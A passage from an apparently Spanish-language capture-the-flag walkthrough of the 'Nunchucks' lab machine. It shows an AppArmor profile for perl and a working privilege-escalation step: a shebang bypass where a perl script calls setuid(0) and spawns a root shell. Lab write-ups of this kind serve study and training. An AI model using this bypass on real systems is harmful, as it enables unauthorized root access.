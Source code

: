 Nos metemos en el directorio donde los están perfiles de `AppArmor` y visualizamos el `perfil` de `perl`

```
david@nunchucks:/etc$ cd /etc/apparmor.d
david@nunchucks:/etc/apparmor.d$ ls
abstractions  force-complain  lsb_release      sbin.dhclient  usr.bin.man   usr.sbin.ippusbxd  usr.sbin.rsyslogd
disable       local           nvidia_modprobe  tunables       usr.bin.perl  usr.sbin.mysqld    usr.sbin.tcpdump
david@nunchucks:/etc/apparmor.d$ cat usr.bin.perl
# Last Modified: Tue Aug 31 18:25:30 2021
#include <tunables/global>

/usr/bin/perl {
  #include <abstractions/base>
  #include <abstractions/nameservice>
  #include <abstractions/perl>

  capability setuid,

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

  /usr/bin/id mrix,
  /usr/bin/ls mrix,
  /usr/bin/cat mrix,
  /usr/bin/whoami mrix,
  /opt/backup.pl mrix,
  owner /home/ r,
  owner /home/david/ r,

}
```

En `Hacktricks` encontramos un artículo sobre como `bypassear` la seguridad de `AppArmor` mediante el `shebang` [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/apparmor#apparmor-shebang-bypass](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/apparmor#apparmor-shebang-bypass)

```
david@nunchucks:/tmp$ echo '#!/usr/bin/perl
> use POSIX qw(strftime);
> use POSIX qw(setuid);
> POSIX::setuid(0);
> exec "/bin/sh"' > /tmp/test.pl
david@nunchucks:/tmp$ chmod +x /tmp/test.pl
david@nunchucks:/tmp$ /tmp/test.pl
# whoami
root
```

En `/opt` nos encontramos dos archivos interesantes, el archivo `backup.pl` también se aprovecha de este bug para `ejecutarse` como usuario `root`
